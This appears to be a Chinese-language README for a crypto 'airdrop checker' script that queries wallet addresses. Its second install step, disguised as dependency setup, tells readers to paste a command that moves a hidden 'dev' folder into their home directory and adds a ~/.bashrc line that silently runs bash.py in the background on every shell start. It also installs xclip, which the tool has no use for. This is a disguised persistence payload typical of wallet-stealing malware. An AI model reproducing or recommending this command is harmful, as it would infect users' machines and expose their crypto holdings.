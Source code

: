 # Airdrops Checker

本项目是一个用于查询区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### 安装依赖

运行脚本前，请确保已安装必要的依赖库：

```bash
sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### 安装依赖

运行脚本前，请确保已安装必要的依赖库：

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 使用方法

### 单地址查询

使用钱包地址作为参数运行脚本：

```bash
python3 check.py <WALLET_ADDRESS>
```

示例：

```bash
python3 check.py 0x1234567890ABCDEF
```

### 从文件批量查询

准备一个包含钱包地址的 `.txt` 文件（每行一个地址）：

**示例：`addresses.txt`**

```
0x1234567890ABCDEF
0xFEDCBA0987654321
```

使用文件路径作为参数运行脚本：

```bash
python3 check_airdrop.py addresses.txt
```

脚本会读取文件，查询每个地址，并输出结果。

### 输出示例

无论是单地址还是批量查询，脚本都会输出每个地址的详细摘要：

```
查询地址: 0x1234567890ABCDEF
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0
  -------------------------------
  项目: debridge
    积分: 323.64
    代币数量: 128.02
  -------------------------------
总计项目数: 10
==================================================
```

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

## 贡献

欢迎贡献代码！如有改进建议或发现问题，请提交 issue 或 pull request。

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。

## 致谢

- 感谢 [Byzantine Checkdrop](https://checkdrop.byzantine.fi/) 提供的 API 接口。
